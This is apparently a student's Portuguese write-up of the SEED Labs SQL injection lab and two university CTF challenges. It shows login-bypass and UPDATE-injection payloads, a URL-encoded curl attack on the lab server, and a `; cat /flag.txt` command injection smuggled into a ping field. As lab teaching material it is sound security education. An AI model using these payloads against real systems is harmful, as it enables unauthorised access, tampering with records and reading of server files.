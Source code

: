 # SeedLabs: Web SQL Injection
## Task 1

De modo a aceder a entrada específica da Alice na tabela, usamos o seguinte comando SQL:

```sql
SELECT * from credential WHERE name="Alice";
```

![Imagem 1](./images/lb8_img1.png)

## Task 2

Software de autenticação fornecido:
```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
// The following is Pseudo Code
if(id != NULL) {
    if(name==’admin’) {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
Authentication Fails;
}
```

### Task 2.1

Utilizamos os seguintes inputs de modo a obter acesso à conta administrativa.

username: `admin';#`

password: `foo`

![Imagem 2](./images/lb8_img2.png)

### Task 2.2

Para explorar a vulnerabilidade de injeção SQL através do URL, devemos codificar os parâmetros.

`curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=foo"`

### Task 2.3

Existe uma contra-medida que previne atacantes de correr duas instruções SQL neste ataque, tal como é referido no SEED book.

Tal deve-se a uma feature da função `query`, pertencente à extensão php mysqli utilizada, que bloqueia multiplas queries numa só string. Múltiplas queries numa só string apenas são aceites pela função `mysqli::multi_query`, que não é utilizada neste caso.

## Task 3

Software de autenticação fornecido:
```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET nickname=’$input_nickname’,email=’$input_email’,address=’$input_address’,Password=’$hashed_pwd’,PhoneNumber=’$input_phonenumber’WHERE ID=$id;";$conn->query($sql);
```

### Tasks 3.1 and 3.2

Como a página `Edit Profile` utiliza uma instrução SQL que contém a keyword `UPDATE`, é necessário utilizar a mesma de modo a alterar os campos de uma dada entrada da tabela, visto que na tarefa anterior mostramos que tal não é possível através da página de login.

Assim, apenas foi necessário escrever no campo `Nickname` o seguinte código, de modo a alterar o salário da Alice:

`', salary=9999999 WHERE name='Alice';#`

Para o Boby, apenas foi necessário alterar o campo `name` para o nome correspondente e colocar o salário merecido.

`', salary=1 WHERE name='Boby';#`

![Imagem 3](./images/lb8_img3.png)

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 5003/5000

## Desafio 1

Através do script `index.php`, foi possível identificar uma vulnerabilidade que permite ao utilizador utilizar SQL Injection, com a finalidade de se autenticar com sucesso sem ter conhecimento das credenciais.

A vulnerabilidade encontra-se na linha 40:
```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Deste modo, como `.$password.` irá ser substituido pelo input do utilizador no campo `Password`, o utilizador poderá escrever, por exemplo, uma das seguintes passwords, que tornam a condição do `WHERE` verdadeira para um dado utilizador:

- `' OR '1'='1`
- `' OR 1=1; --`

Após introduzir uma das passwords acima apresentadas com o username `admin` é apresentada a flag.

## Desafio 2


Neste desafio, o website disponibiliza serviços dos quais o utilizador pode usufruir sem estar autenticado, tais como obter um relatório da conexão de rede e dar `ping` a um endereço escolhido pelo mesmo.

Após alguma reflexão, verficamos que a implementação deste último utiliza muito provavelmente uma das seguintes chamadas:

```php
exec("ping ".$target);
system("ping ".$target);
```

O intuito do programa é, por exemplo, executar o programa `ping 127.0.0.1`.

Deste modo, independentemente de qual destas chamadas foi usada, é possível utilizar um exploit que permite adicionar outros comandos para serem executados pela função, já que nos apercebemos que não é utilizada qualquer verificação de input.

Assim, escrevendo `; cat /flag.txt` no campo, assumimos que o programa irá interpretar como (por exemplo, com o `exec`):
```php
exec("ping ; cat /flag.txt");
```

Isto permite-nos ignorar completamente o comando ping e executar um outro comando que nos permite ler o conteúdo do ficheiro que contém a solução do desafio.
